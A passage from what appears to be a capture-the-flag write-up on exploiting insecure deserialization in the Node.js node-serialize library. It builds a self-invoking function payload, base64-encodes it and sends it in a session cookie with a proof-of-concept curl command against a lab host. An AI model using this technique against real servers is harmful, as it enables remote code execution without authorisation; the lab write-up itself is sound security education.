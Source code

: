 Anyway; there are a couple of things we need to do to prime our payload. We need to use the `serialize`-function to serialize the payload since we think it's going to be unserialized on the server side.

```js
$ node
Welcome to Node.js v12.21.0.
Type ".help" for more information.

> serialize = require('node-serialize');
{ serialize: [Function], unserialize: [Function] }

> serialize.serialize({"email": function() { return 2+2; }})

'{"email":"_$$ND_FUNC$$_function() { return 2+2; }"}'
```

We can now see that our payload is:

```json
{"email":"_$$ND_FUNC$$_function() { return 2+2; }"}
```

Using this payload is not going to work unless there is something on the server that actually executes our function. But, we can actually force the server to execute our function by making it a self-invoking function. We can do that by adding `()` after the function declaration. Like this:

```json
{"email": "_$$ND_FUNC$$_function() { return 2+2; }()"}
```

Now all we have to do is encode the payload using `base64`:

```bash
$ echo '{"email": "_$$ND_FUNC$$_function() { return 2+2; }()"}' | base64
eyJlbWFpbCI6ICJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKSB7IHJldHVybiAyKzI7IH0oKSJ9Cg==
```

And set up our `curl`-command (copied from Firefox dev tools):

### PoC `curl`-command to trigger RCE
```bash
$ curl 'http://10.10.171.154/' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: nb-NO,nb;q=0.9,no-NO;q=0.8,no;q=0.6,nn-NO;q=0.5,nn;q=0.4,en-US;q=0.3,en;q=0.1' --compressed -H 'Connection: keep-alive' -H 'Cookie: session=eyJlbWFpbCI6ICJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKSB7IHJldHVybiAyKzI7IH0oKSJ9Cg==' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache'
```
